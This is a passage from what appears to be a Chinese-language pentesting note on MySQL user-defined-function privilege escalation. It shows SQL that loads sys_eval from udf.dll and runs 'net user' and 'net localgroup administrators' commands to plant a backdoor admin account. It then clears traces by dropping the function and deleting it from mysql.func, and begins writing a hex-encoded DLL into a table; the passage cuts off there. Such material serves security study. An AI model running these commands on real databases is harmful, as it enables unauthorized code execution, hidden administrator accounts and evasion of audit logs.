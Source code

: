 ```cmd
create function sys_eval returns string soname 'udf.dll'; 注意:需要创建.dll文件中存在的函数才可以,用16进制编辑器打开.dll文件查看可编辑的函数

#执行语句
select sys_eval("net user tomato tomato /add")

#将该用户提升为管理员
select sys_eval("net localgroup administrators tomato /add")

#清除痕迹
drop function sys_eval;
delete from mysql.func where name="sys_eval";
```

![image-20241028191700976](./assets/image-20241028191700976.png)

- `执行命令`

![image-20241028191739992](./assets/image-20241028191739992.png)

#### 示例

- `连接数据库`

- 查看`默认安装路径`及相应信息

```sql
select @@basedir,version()
select version()
```

- `执行sql语句，将hex编码写入udf3.dll文件`

```sql
# 创建表
create table udf(shellcode BLOB);
```

- 获得`十六进制内容`
